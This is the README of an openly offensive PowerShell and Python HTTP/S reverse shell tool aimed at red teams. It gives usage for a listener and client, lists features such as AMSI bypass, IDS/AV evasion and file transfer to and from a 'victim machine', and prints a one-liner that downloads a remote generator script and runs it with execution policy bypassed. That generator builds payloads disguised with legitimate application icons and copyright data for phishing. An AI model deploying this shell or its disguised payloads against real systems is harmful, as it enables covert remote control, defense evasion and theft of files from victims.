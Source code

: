 # Powershell HTTP/S Reverse Shell

[![Category-tool]]() [![Powershell]]() [![Python]]() [![License]]()

HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol. It use a covert channel to gain control over the victim machine through web requests and thus evade solutions such as IDS, IPS and AV.

<p align="center"><img width=400 alt="HTTP-revshell" src="./images/logo.png"></p>

## Help server.py (unisession server)
Server usage:
```
usage: server.py [-h] [--ssl] [--autocomplete] host port

Process some integers.

positional arguments:
  host            Listen Host
  port            Listen Port

optional arguments:
  -h, --help      show this help message and exit
  --ssl           Send traffic over ssl
  --autocomplete  Autocomplete powershell functions
```

## Help Invoke-WebRev.ps1 (client)
Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

## Installation
```shell
git clone ![Revshell-Generator]/HTTP-revshell.git
cd HTTP-revshell/
pip3 install -r requirements.txt
```

## Quick start server-multisession.py (multisession server)

```
This server allows multiple connection of clients.
There is a menu with three basic commands: sessions, interact and exit
     - sessions --> show currently active sessions
     - interact --> interacts with a session (Example: interact <session_id>)
     - exit --> close the application
```
**IMPORTANT**: To change the session press *CTRL+d* to exit the current session without closing it.

## Features
 - SSL
 - Proxy Aware
 - Upload files
 - Download files
 - Load powershell scripts through the server
 - Error Control
 - AMSI bypass
 - Multiple sessions [only server-multisession.py]
 - Autocomplete PowerShell functions (optional) [only server.py]
    
## Extra functions usage
### Upload
This function allow you to upload any file to the victim machine.

Usage:
```
upload /src/path/file C:\dest\path\file
```
### Download
This function allow you to download a file to the attacker machine.

Usage:
```
download C:\src\path\file /dst/path/file
```
 ### Loadps1
This function allows you to load from powershell scripts without having to write to the victim's disk, reading the file through legitimate HTTP traffic.

Usage:
```
loadps1 /path/to/the/local/server/PowershellScript.ps1
```

## Help Revshell-Generator.ps1 (Automatic Payload Generator)
This script allows you to create an executable file with the payload necessary to use **HTTP-revshell**, you just need to follow the instructions on the screen to generate it. There are 6 predefined templates and a customizable one, with the data that you like.

The payloads generated by the tool, incorporate the legitimate icon of the application, as well as the product and copyright information of the original application. In addition, each of them opens the original application before establishing the connection with the server, pretending to be a legitimate application. This can be used for phishing or Red Team exercises.

Payload Generator usage:
```
powershell -ep bypass "iwr -useb https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/Revshell-Generator.ps1 | iex"
```
![Revshell-Generator](/images/generator.gif)

**IMPORTANT**: All fields in predefined templates are auto-complete by pressing the enter key.

## Credits
 - [JoelGMSec] for his awesome Revshell-Generator.ps1. Twitter: [@JoelGMSec]
 - [dev-2null] for report the first bug. Twitter: [@dev2null]

## Disclaimer & License
This script is licensed under LGPLv3+. Direct link to [License](https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/LICENSE).

HTTP-revshell should be used for authorized penetration testing and/or nonprofit educational purposes only. 
Any misuse of this software will not be the responsibility of the author or of any other collaborator. 
Use it at your own servers and/or with the server owner's permission.

<!-- Twitter URLs -->
[@JoelGMSec]: https://twitter.com/JoelGMSec
[@dev2null]: https://twitter.com/dev2nulI

<!-- Github URLs -->
[JoelGMSec]: https://github.com/JoelGMSec
[dev-2null]: https://github.com/dev-2null

<!-- Badge URLs -->
[License]: https://img.shields.io/badge/License-LGPL%20v3%2B-blue.svg?style=flat-square&colorA=273134&colorB=006bbd "LGPL v3+"
[Category-tool]: https://img.shields.io/badge/Category-Post%20Exploitation-E5A505?style=flat-square&colorA=273134
[Powershell]: https://img.shields.io/badge/Powershell-3.0%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff0000
[Python]: https://img.shields.io/badge/Python-3%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff6f00
